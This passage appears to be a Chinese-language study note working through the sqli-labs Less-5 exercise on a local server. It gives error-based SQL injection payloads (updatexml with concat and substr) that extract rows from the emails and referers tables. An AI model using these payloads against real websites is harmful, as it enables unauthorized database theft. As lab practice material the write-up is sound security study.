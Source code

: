 ![image-20220703214730086](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20220703214730086.png)



##### 6.2得知列名，开始查表中信息

###### 6.2.1 emails表

``` 
SQL语句为：
http://localhost:8080/Less-5/
?id=1' 
and 
updatexml(1,concat(0x7e,(select group_concat(id,email_id) from emails ),0x7e),1) --+
ps：此处为啥不用加where条件呢，因为这个查询是默认在它名为security的数据库下查询的，从前面获取其当前数据库名就知道了。
```

![image-20220703210403163](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20220703210403163.png)

```
但发现这里只查到了前面俩个id，所以我们得在代码上加上substr（）函数，SQL语句变为：
http://localhost:8080/Less-5/
?id=1' and
 updatexml(1,concat(0x7e,substr((select group_concat(id,email_id) from emails ),1,30),0x7e),1) --+
其中的1跟32表示执行这串sql语句后显示其1到30位（因为2个0x7e占了俩个字符）。
接下来可以把31-60改成61-90如此类推
```

![image-20220703211606689](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20220703211606689.png)

![image-20220703211755894](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20220703211755894.png)

![image-20220703211813357](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20220703211813357.png)

![image-20220703211857748](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20220703211857748.png)

![image-20220703211915629](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20220703211915629.png)

![image-20220703211932803](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20220703211932803.png)

###### 6.22 referers表

```
重复上面步骤
语句修改为:
http://localhost:8080/Less-5/
?id=1' and
 updatexml(1,concat(0x7e,substr((select group_concat(id,referer,ip_address) from referers),1,30),0x7e),1) --+
执行后发现并没显示任何东西，排除了代码错误问题，查数据库后发现这个表并无内容
```

![image-20220703212720825](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20220703212720825.png)
